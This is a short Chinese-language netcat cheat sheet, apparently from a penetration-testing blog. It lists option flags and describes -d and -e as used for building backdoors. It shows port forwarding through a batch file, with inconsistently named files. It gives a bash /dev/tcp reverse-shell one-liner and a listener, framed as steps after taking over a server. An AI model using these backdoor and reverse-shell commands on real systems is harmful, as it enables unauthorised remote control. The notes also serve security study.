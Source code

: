 ## netcat命令参数

查看命令参数  nc -h

```
-d     脱离命令窗口，在后台运行，常用于后门建立过程。
-e     执行某个程序，常用于后门建立过程。
-G geteway   设置网关，常用于突破内网限制
-g num  路由跳数
-i sec   设置发送每一行数据的时间间隔
-l     设置netcat处于监听状态等待连接
-L     设置netcat处于监听状态等待连接，当客户端断开，服务端依旧回到等待状态。
-n     设置netcat只识别ip地址，不进行DNS解析
-o file    设置传输十六进制的数据
-p port    设置本地监听的端口号
-r         设置netcat随机化的端口号
-s addr    设置netcat源地址
-t         回复telnet的请求数据包
-u         设置netcat使用udp模式
-v         显示错误提示信息
-w secs    设置连接超时秒数
-z         设置扫描模式，表示发送的数据包中不包含任何payload
```

## netcat连接转发

	echo nc [target] [port] > delpay.bat

	nc -l -p [localport] -e deply.bat

deplay内容：

	nc64.exe 192.168.1.105 4445

当有客户端连接该服务端时，连接得客户端和通过服务端连接到 target port 上，实现了l连接转发功能。（端口转发）

## netcat反弹shell (bash)

#### 应用场景

某些拿到服务器权限之后，想要设置一个反弹shell,但是目标服务器上没有安装netcat时。


#### 基础介绍

反弹shell命令：  

	bash -i >& /dev/tcp/ip/port 0>&1

![delG6A.png](https://s1.ax1x.com/2020/08/17/delG6A.png)

PC 接收netcat命令：

	nc -lvp port

